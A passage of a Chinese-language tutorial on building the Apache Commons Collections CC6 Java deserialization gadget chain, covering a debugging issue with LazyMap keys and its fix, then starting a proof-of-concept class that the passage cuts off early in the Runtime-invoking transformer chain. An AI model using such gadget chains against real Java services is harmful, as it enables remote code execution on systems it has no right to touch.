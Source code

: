 但是执行后无法触发命令执行，进行调试，发现 `expMap.put(tme, "valuevalue");` 这个 `put` 语句也有调⽤到 `HashMap#hash(key)`

![image](https://user-images.githubusercontent.com/84888757/205507641-1b0c599f-5a83-4020-a99c-45671e7efa34.png)

而这里的 `key` 为 `TiedMapEntry` 的实例化对象 `tme`，调用的则是 `TiedMapEntry的hashcode` ：

![image](https://user-images.githubusercontent.com/84888757/205507741-dd0be951-5c8c-48fb-9023-04f2657f60bf.png)


然后就调用到 `LazyMap#get` 方法，此时 `lazymap` 中的 `key` 没有 `keykey` 。

所以进入 `if` 语句，执行了 `factory.transform(key);` ，因为前面构造 `LazyMap` 的时候先⽤了⼀个无伤大雅的虚假 `transformerChain` 对象 `ConstantTransformer(1)` ，所以此时并没有触发命令执⾏。

但也执行了 `map.put(key, value);` ，导致 `lazymap` 中的 `key` 之后在反序列化时就有 `keykey` 了。

<img width="885" alt="image" src="https://user-images.githubusercontent.com/84888757/205511423-bf0a3dbc-4d71-466b-8be0-41f1f3c14c46.png">


再进行一次 `F9` 执行程序到下一次断点位置，走到反序列化过程中的 `LazyMap#get` 中，这才是我们之前想要的使用了正确的 `transformerChain` 的 `Gadget` （从 `readObject` 起步）。

`LazyMap` 中已存放有 `key` 为 `keykey` ，导致 `factory.transform(key)` 方法无法触发。

<img width="957" alt="image" src="https://user-images.githubusercontent.com/84888757/205511877-b4e4f53a-b01e-44c9-8c30-1f034bc6a124.png">


解决⽅法：

移除 `LazyMap` 中的 `keykey` 这个 `key`。

```
outerMap.remove("keykey");
outerMap.clear();
```

## 3.4 完整的 CC6 Gadget POC
最后，构造的完整POC如下：

📒 `CC6_1.java`

```
package org.vulhub.Ser;

import com.sun.xml.internal.ws.policy.privateutil.PolicyUtils;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC6_1 {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
```